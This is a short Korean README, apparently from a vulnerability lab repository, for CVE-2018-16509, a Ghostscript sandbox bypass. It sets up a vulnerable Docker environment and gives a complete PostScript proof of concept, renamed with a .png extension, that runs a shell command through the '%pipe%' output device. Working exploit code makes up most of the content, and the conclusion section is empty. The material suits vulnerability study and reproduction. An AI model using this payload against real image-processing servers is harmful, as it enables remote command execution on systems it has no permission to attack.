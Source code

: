 <h1>CVE-2018-16509</h1>

**Contributors**

[정기현](https://github.com/jkh011120)

<br>

<h3>요약</h3>

CVE-2018-16509는 Postscript 및 PDF를 처리하는 Ghostscirpt를 우회하여 사용자가 의도치 않은 행위를 하게 함.
즉. 파일 확장자로 우회하여 공격 시도가 가능함.


<h3>환경 구성 및 실행</h3>

`docker compose up -d` 커맨드를 입력해 테스트 환경 실행 (GhostScript 9.23 및 ImageMagick 7.0.8버전을 사용합니다)



<h3>poc.ps -> poc.png </h3>
Postscript로 코드를 만든 후 확장자 명을 png로 만듦.

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```

<h3>결과</h3>
![](1.png)
![](2.png)
![](3.png)
![](4.png)

<br>
<h3>정리</h3>

